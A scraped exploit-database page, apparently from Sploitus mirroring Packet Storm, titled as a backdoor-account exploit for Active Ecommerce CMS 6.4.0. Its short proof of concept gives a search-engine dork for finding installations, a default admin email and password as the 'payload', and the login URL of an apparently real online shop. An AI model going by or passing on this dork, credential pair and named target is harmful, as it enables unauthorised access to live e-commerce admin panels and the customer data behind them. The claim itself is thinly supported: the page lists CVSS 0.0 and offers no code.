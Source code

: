 ```yaml
---
title: Active Ecommerce CMS 6.4.0 Backdoor Account exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170334&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-28
fetch_date: 2025-10-04T02:35:04.918155
---
```


# Active Ecommerce CMS 6.4.0 Backdoor Account exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Active Ecommerce CMS 6.4.0 Backdoor Account

2022-12-27 | CVSS 0.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170334
====================================================================================================================================
| # Title : Active ecommerce cms v6.4.0 Backdoor Account Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 108.0(64-bit) |
| # Vendor : https://codecanyon.net/item/active-ecommerce-cms/23471405?s_rank=24 |
| # Dork : "category/beauty-health-hair" |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] Use Payload : user=admin@example.com & pass=123456

[+] https://www.sbeshopping.com/login

Greetings to :=========================================================================================================================
|
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm* moncet |
|
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)